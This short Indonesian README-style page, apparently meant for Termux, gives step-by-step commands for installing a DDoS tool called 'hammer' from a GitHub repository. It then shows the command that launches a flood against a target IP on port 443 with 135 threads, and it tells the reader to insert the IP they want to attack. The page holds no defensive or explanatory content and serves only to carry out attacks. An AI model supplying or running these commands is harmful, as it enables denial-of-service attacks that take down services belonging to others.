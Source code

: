
Tools Khusus Ddos 

$ pkg update
$ pkg upgrade
$ pkg install python
$ pkg install git
$ git clone https://github.com/DarkMennA/hammer
$ cd hammer
$ python hammer.py

Untuk menjalankan nya atau mulai men Ddos nya tinggal ketikan perintah
$ python hammer.py -s [IP TARGET YANG INGIN DI DDOS] -p 443 -t 135
